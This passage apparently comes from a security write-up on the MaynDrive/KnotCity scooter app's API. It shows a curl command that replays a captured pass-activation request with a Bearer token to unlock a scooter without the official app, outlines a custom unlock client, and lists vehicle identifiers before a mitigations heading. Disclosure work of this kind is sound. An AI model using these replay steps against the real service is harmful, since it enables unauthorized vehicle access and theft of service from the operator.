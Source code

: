 ```
POST /api/application/passes/12345/activate
```

Pass ID = `12345`

### Step 3: Replay the Request
Use any HTTP client (curl, Postman, Python requests):

```bash
curl -X POST \
  https://api.knotcity.io/api/application/passes/12345/activate \
  -H "Authorization: Bearer <captured_token>"
```

**Result**: Scooter unlocks without the official app!

### Step 4: Build Custom Client
Create a minimal app/script that:
1. Authenticates to get Bearer token
2. Lists available scooters
3. Sends unlock/lock commands

**No app installation needed** - just HTTP requests!

---

## 📱 Scooter Details

### Test Vehicle Information
- **App Name**: TUF061
- **Model**: SNSC 2.0
- **FCC ID**: 2ALS8-NB9675
- **IC**: 22636-NB9675
- **Serial Number Format**: N8L8I19C031112

### Network Architecture
```
[MaynDrive App] 
    |
    ├─> HTTPS → api.knotcity.io (Lock/Unlock, API calls)
    |
    └─> DTLS/UDP → IoT Gateway (Telemetry, real-time status)
            |
            └─> [Scooter SNSC 2.0]
```

---

## 🛡️ Recommended Mitigations

### For MaynDrive/KnotCity:

